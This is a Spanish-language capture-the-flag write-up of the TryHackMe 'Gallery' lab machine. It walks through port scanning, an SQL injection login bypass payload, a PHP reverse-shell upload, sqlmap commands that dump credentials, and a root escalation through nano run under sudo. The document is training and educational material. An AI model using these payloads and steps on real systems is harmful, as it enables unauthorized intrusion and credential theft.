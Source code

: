 ```yaml
---
title: "Gallery Writeup - Try-Hack-Me"
date: 2023-10-20
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets/img/imagenes/Gallery.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Gallery banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.42 seconds
```

### Ports: 80/htto - 8080/http

### Enumeracion del puerto 80
![img](/assets/img/imagenes/Pasted image 20240112205004.png)

### Fuzzing con gobuster
![img](/assets/img/imagenes/Pasted image 20240112205902.png)
vamos a analizar el subdominio /gallery

### login
![img](/assets/img/imagenes/Pasted image 20240112210033.png)

###### vamos a intentar varias credenciales por defecto y tambien inyecciones sqli
payload inyeccion sqli
```python
admin'OR 1=1-- -
```

### tenemos acceso a la pag web
![img](/assets/img/imagenes/Pasted image 20240112210533.png)

###### en el apartado de albums podemos ver una opcion para cargar archivos lo que podriamos utilizar para intentar cargar un archivo php que contenga una reverse shell
![img](/assets/img/imagenes/Pasted image 20240112212006.png)
la rever shell ha funcionado tenemos conexion a la maquina

### movimiento lateral. 
![img](/assets/img/imagenes/Pasted image 20240112212241.png)

###### navegando por la maquina hemos conseguido un archivo backups del usuario mike en el cual tenemos permisos de lectura sobre el archivo .bash_history y dentro podemos ver que el usuario mike en algun momento proporciono su clave de super usuario asi que vamos a capturarla para convertirnos en el usuario mike

### analizando la maquina podemos ver que tenemos una base de datos
![img](/assets/img/imagenes/Pasted image 20240112220052.png)
usaremos sqlmap para enumerar esta base de datos

### sqlmap 

```python
sqlmap -r phpid.txt --dbs
```
necesitamos interceptar alguna peticion con el burpsuite para poder conseguir la phpsessionid

![img](/assets/img/imagenes/Pasted image 20240112222715.png)
ya tenemos el nombre de la base de datos. ahora vamos a enumerarla

```python
sqlmap -r phpid.txt -D gallery_db --tables
```
hemos enumerado las tablas de la base de datos. la tabla de users parece interesanta asi que vamos a echar un vistazo 
![img](/assets/img/imagenes/Pasted image 20240112223302.png)

ahora vamos a enumerar la tabla de usuarios 

```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users
```

![img](/assets/img/imagenes/Pasted image 20240112223801.png)

ahora vamos a enumerar las columnas de password y username
```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users -C username,password --dump
```

![img](/assets/img/imagenes/Pasted image 20240112224808.png)
tenemos credenciales del usuario admin

### Escalada de privilegios
![img](/assets/img/imagenes/Pasted image 20240112230108.png)
el usuario mike tiene permisos root para el script rootkit.sh usaremos esto para escalar privilegios

### script: el archivo tiene 4 variables. pero lo mas importante es que nos permite usar nano como root. usaremos esto para escalar privilegios
![img](/assets/img/imagenes/Pasted image 20240112230528.png)

usaremos la opcion numero 4 (read) esto nos permite editar el archivo 
![img](/assets/img/imagenes/Pasted image 20240112231008.png)

usaremos este comando con nano para lograr la escalada 
```python
nano
- Ctrl^R 
- reset; sh 1>&0 2>&0
- Ctrl^X
```

![img](/assets/img/imagenes/Pasted image 20240112231326.png)
### WE ARE ROOT
